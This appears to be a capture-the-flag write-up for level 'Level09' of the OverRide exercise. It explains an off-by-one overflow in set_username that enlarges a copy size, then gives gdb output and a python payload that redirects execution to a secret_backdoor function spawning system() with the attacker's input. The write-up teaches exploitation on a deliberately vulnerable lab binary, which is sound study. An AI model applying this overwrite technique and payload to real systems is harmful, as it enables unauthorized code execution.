 # Level09

## Reconnaissance

We have three security enabled:
- **RELRO Partial enabled** = stands for Relocation Read-Only and means that the GOT (Global Offset Table) placed were we cannot overflow
- **NX enabled** = not every part of the memory are considered as being executable
- **PIE enabled** = stands for Position Independent Executable which means that the binary has been built to be run anywhere in memory. However, for PIE being relevant, ASLR should be activated, which is not the case.
```shell
level09@OverRide:~$ cat /proc/sys/kernel/randomize_va_space
0
```

ELF 64bit

With gdb, we notice that there is an unused function called `secret_backdoor` which give `stdin` to `system`.
We spot that the `set_username` function write one more byte than expected, overwriting the first byte of `size`
which is used to copy the msg into the main buffer. We can use this to overwrite the return pointer of `handle_msg`
and run the `secret_backdoor` function since it is present and we cannot use a shellcode because of `NX enabled`.

## Exploit

![stack](Ressources/stack.svg)
We have an offset of 200 so `size` must be overwrite with `208 = 0xd0`

Then we need to get the address of `secret_backdoor` function but since `PIE` has been enabled we dont have its address directly in gdb,
we have to run the binary and then get the address. This address wont change since `ASLR` has not been activated.
```shell
(gdb) info functions secret_backdoor 
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```
We can build our payload with the first 40 bytes to fill the `username` buffer, we add one for the username which will overwrite the first byte of `size` and then our padding followed by the address of `secret_backdoor`:
- `python -c 'print "A" * 40 + "\xd0" + "\n" + "B" * 200  + "\x8c\x48\x55\x55" + "\x55\x55\x00\x00"' > /tmp/level09`

